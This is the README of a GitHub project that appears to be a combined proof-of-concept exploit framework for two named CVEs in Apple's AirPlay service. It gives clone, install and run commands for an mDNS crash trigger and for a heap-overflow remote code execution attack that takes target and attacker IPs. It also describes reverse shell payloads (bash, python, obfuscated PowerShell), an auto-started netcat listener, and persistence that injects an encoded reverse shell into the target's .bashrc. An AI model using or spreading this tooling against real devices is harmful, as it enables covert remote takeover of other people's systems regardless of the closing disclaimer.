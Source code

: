 # AirBorne PoC Framework – Elite RCE Edition

> **Full PoC Framework for CVE-2025-24252 & CVE-2025-24132**  
> By [ekomsSavior](https://github.com/ekomsSavior) | 

AirBorne is a combined proof-of-concept (PoC) framework targeting two serious vulnerabilities in Apple's AirPlay service. It includes a full crash trigger and a working reverse shell exploit with optional persistence, listener, and multiple payload formats — all in one script.

> 💾 **Looking for the original version?**  
> The legacy edition is still available in the `legacy` branch of this repository.  
> To check it out:

```bash
git checkout legacy
```

---

## CVEs Covered

### ✅ CVE-2025-24252 – mDNS TXT Record Crash
- Triggers a crash in the AirPlayReceiver daemon via a malformed mDNS packet
- Works over UDP broadcast on port 5353

### ✅ CVE-2025-24132 – Heap Overflow → Reverse Shell (RCE)
- Triggers a heap overflow in AirPlay's TCP service on port 7000
- Supports bash, python, and PowerShell reverse shell payloads
- Includes optional persistence using `.bashrc` injection (Linux)

---

## Getting Started

### 1. Clone the Repo

```bash
git clone https://github.com/ekomsSavior/AirBorne-PoC.git
cd AirBorne-PoC
```

### 2. Install Dependencies

```bash
sudo apt update
sudo apt install -y python3-scapy netcat
```

---

## Runtime Walkthrough

The single script `airborne.py` includes both PoCs and all logic:

* Select a CVE using `--exploit`
* Set a reverse shell payload using `--payload`
* Auto-starts a netcat listener for you
* Optionally enables persistence on target using `--persistent`

---

## Usage Examples

### Crash Target with mDNS Packet (CVE-2025-24252)

```bash
sudo python3 airborne.py --exploit 24252 --interface wlan0
```

> Requires an interface in monitor mode.

---

### Launch Heap Overflow → RCE (CVE-2025-24132)

Start full exploit with default bash shell:

```bash
sudo python3 airborne.py --exploit 24132 --target 192.168.1.42 --attacker 192.168.1.99
```

Choose Python shell instead:

```bash
sudo python3 airborne.py --exploit 24132 --target 192.168.1.42 --attacker 192.168.1.99 --payload python
```

Enable real persistence on Linux targets:

```bash
sudo python3 airborne.py --exploit 24132 --target 192.168.1.42 --attacker 192.168.1.99 --persistent
```

---

## Payload Options

| Payload      | Description                                         |
| ------------ | --------------------------------------------------- |
| `bash`       | Default bash reverse shell over TCP                 |
| `python`     | Python-based reverse shell using `socket` and `pty` |
| `powershell` | Full Windows PowerShell RCE payload (obfuscated)    |

---

## Persistence Mode

When using `--persistent`, the script will append the encoded reverse shell payload to the target’s:

```bash
~/.bashrc
```

This ensures a shell is returned to you each time the user logs in or a terminal is spawned.

---

## Maintenance Notes

* Reverse shells are encoded using `base64` and delivered after buffer overflow
* All payloads are sent via port 7000
* mDNS packets go over UDP 5353 and require raw socket permission
* Make sure your attack box IP is reachable by the target device
* Script handles basic error cases and fails silently if closed ports

---

## Ethical Disclaimer

**This project is intended for educational, ethical, and authorized research only.**

* You must have explicit permission to test the target system.
* You assume full responsibility for any actions taken.

Unauthorized exploitation of systems is illegal and unethical.

---

## Credits

* Built by [ekomsSavior](https://github.com/ekomsSavior) 
* Inspired by real-world CVEs and exploit development research



